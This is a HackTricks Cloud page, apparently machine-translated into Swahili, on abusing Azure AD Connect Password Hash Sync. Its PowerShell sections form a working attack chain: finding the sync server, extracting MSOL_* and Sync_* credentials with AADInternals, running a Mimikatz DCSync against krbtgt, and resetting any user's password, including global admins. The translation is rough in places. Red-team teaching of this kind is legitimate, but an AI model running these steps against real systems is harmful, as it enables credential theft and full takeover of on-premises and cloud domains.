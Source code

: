 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Sawa na usawazishaji wa hash ya nenosiri** ni moja ya mbinu za kuingia zinazotumika kufanikisha utambulisho wa hybrid. **Azure AD Connect** inasawazisha hash, ya hash, ya nenosiri la mtumiaji kutoka kwa mfano wa Active Directory wa ndani hadi mfano wa Azure AD wa msingi wa wingu.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Ni **mbinu ya kawaida zaidi** inayotumiwa na kampuni kusawazisha AD ya ndani na Azure AD.

Watumiaji wote **na hash ya nenosiri** inasawazishwa kutoka kwa AD ya ndani hadi Azure AD. Hata hivyo, **nenosiri la wazi** au **hashi za asili** hazitumwi kwa Azure AD.\
Zaidi ya hayo, vikundi vya usalama **vilivyojengwa ndani** (kama wasimamizi wa kikoa...) **havisawazishwi** kwa Azure AD.

**Usawazishaji wa hash** unafanyika kila **dakika 2**. Hata hivyo, kwa kawaida, **kuisha kwa nenosiri** na **kuisha kwa akaunti** **hakusawazishwi** katika Azure AD. Hivyo, mtumiaji ambaye **nenosiri lake la ndani limeisha** (halijabadilishwa) anaweza kuendelea **kupata rasilimali za Azure** akitumia nenosiri la zamani.

Wakati mtumiaji wa ndani anapotaka kupata rasilimali ya Azure, **uthibitishaji unafanyika kwenye Azure AD**.

**PHS** inahitajika kwa vipengele kama **Ulinzi wa Utambulisho** na Huduma za Kikoa za AAD.

## Pivoting

Wakati PHS imewekwa, baadhi ya **akaunti zenye mamlaka** zinaanzishwa kiotomatiki:

* Akaunti **`MSOL_<installationID>`** inaanzishwa kiotomatiki katika AD ya ndani. Akaunti hii inapewa jukumu la **Akaunti za Usawazishaji wa Katalogi** (tazama [nyaraka](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ambayo inamaanisha kwamba ina **mamlaka ya kuiga (DCSync) katika AD ya ndani**.
* Akaunti **`Sync_<name of on-prem ADConnect Server>_installationID`** inaanzishwa katika Azure AD. Akaunti hii inaweza **kurekebisha nenosiri la MTUMIAJI YOYOTE** (iliyowekwa sawa au ya wingu pekee) katika Azure AD.

Nenosiri ya akaunti hizo mbili zenye mamlaka **huhifadhiwa katika seva ya SQL** kwenye seva ambapo **Azure AD Connect imewekwa.** Wasimamizi wanaweza kutoa nenosiri ya watumiaji hao wenye mamlaka katika maandiko ya wazi.\
Hifadhidata iko katika `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Inawezekana kutoa usanidi kutoka moja ya meza, ikiwa moja imefichwa:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Usanidi uliofichwa** umefichwa kwa **DPAPI** na unajumuisha **nenosiri za mtumiaji `MSOL_*`** katika AD ya ndani na nenosiri la **Sync\_\*** katika AzureAD. Hivyo, kuathiri haya inawezekana kupanda kwa mamlaka hadi AD na AzureAD.

Unaweza kupata [muonekano kamili wa jinsi akredit hizi zinavyohifadhiwa na kufichuliwa katika mazungumzo haya](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Ikiwa **seva ambapo Azure AD connect imewekwa** imeunganishwa na kikoa (iliyopendekezwa katika nyaraka), inawezekana kuipata kwa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Kutumia MSOL\_*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Unaweza pia kutumia [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) kupata hizi akauti.
{% endhint %}

### Kutumia Sync\_\*

Kuharibu akaunti ya **`Sync_*`** inawezekana **kurekebisha nenosiri** la mtumiaji yeyote (ikiwemo Wasimamizi wa Kimataifa)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Ni pia inawezekana **kubadilisha nywila za watumiaji wa wingu** pekee (hata kama hiyo siyo ya kutarajia)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Ni uwezekano wa kutupa nenosiri la mtumiaji huyu.

{% hint style="danger" %}
Chaguo jingine lingekuwa **kutoa ruhusa za kipaumbele kwa huduma ya msingi**, ambayo mtumiaji wa **Sync** ana **ruhusa** ya kufanya, na kisha **kufikia huduma hiyo ya msingi** kama njia ya privesc.
{% endhint %}

### Seamless SSO

Ni uwezekano wa kutumia Seamless SSO na PHS, ambayo inakabiliwa na matumizi mengine mabaya. Angalia katika:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Marejeleo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
